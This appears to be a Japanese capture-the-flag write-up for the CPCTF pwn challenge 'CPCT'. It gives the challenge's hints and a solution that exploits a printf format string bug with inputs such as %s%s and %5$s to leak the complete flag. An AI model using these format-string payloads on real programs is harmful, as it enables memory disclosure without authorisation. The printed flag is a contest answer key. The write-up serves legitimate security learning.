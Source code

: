 # CPCT......:Pwn:13.54pts
等価交換って良いですよね。ということで、入力した文字数の分だけflagをあげます！  
でも貰いすぎても困るので4文字以内でお願いします……  
`nc cpct.web.cpctf.space 30006`  

[配布ファイル](cpct.zip)  

**Hint1**  
flagをすべて得るには、lengthの値がflagの長さ以上となる必要があります。  
lengthに値を代入している場所を見てみましょう。そこに脆弱性があります。  
**Hint2**  
ズバリ、脆弱性があるのは32行目のprintf関数です。  
printf関数の脆弱性を調べてみると、Format String Bug というものが見つかるはずです。  
この関数でよく使われる、ある記法が重要です。  
**Hint3 (解法)**  
printf関数で使われるフォーマット指定子を入力に含むことで、本来とは違う動作を引き起こすことができます。  
今回は文字を出力できれば良いので、文字を表す %c を使うとよさそうです。  
ここで、 %10c のように間に数字を入れることで、長さを指定することができます。  
今回はできる限りたくさんの文字を出力してほしいので、 %99c などと入力してみましょう。  
これで99文字入力したことになり、無事にflagを得ることができます。  

# Solution
ソースと接続先が渡される。  
試しに接続してみる。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
sato
Thank you!
Your input:sato
Length: 4
This is your reward!
CPCT
```
最大4文字入力でき、その入力文字数だけフラグの断片が得られる。  
FSBだと予想し、`%s%s`とする。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%s%s
Thank you!
Your input:Thank you!
Your input:(null)
Length: 28
This is your reward!
CPCTF{1m_50rrY_bu7_i_Hav3_0n
```
フラグが入力文字数以上表示されたが、完全でない。  
`%n$s`がちょうど4文字なのでこれを用いて、レジスタやスタックを読みだしてやればよい。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%1$s
~~~
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%5$s
Thank you!
Your input:CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}
Length: 45
This is your reward!
CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}
```
flagが得られた。  

## CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}